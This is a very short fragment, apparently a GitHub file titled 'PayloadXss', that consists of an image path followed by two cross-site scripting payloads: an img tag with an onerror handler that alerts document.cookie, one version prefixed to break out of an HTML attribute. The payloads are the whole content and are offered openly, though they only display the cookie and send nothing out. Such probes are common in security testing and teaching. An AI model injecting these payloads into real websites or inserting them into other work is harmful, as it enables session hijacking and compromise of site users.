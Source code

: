 # PayloadXss

"><img src=x onerror=alert(document.cookie);>
<img src=x onerror=alert(document.cookie);>
